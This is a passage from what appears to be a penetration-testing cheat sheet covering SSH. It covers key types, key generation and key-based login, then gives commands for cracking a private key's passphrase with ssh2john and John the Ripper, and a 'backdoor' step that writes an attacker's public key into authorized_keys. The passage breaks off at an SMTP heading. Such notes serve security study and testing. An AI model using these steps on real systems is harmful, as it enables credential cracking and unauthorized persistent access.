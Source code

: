 ### SSH Keys

#### Key Types

**RSA, DSA and ECDSA**
```
id_rsa
id_dsa
id_ecdsa
```

#### Keys Generation

```
ssh-keygen -t rsa
```

```
cat id_rsa.pub >> authorized_keys
```

#### Private Key Authentication

```
chmod 600 id_rsa
```

```
ssh -i id_rsa <<USERNAME>>@<<IP>>
```

#### Cracking SSH key

```
ssh2john id_rsa > ssh.hash
```

```
john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash
```

### SSH backdoor

```
ssh-keygen -t rsa
```

```
echo <<CONTENTS OF PUBLIC KEY>> > <<PATH>>/.ssh/authorized_keys
```

```
ssh -i id_rsa <<USERNAME>>@<<IP>> 
```



## Port 25 (SMTP)

### Users Enumeration
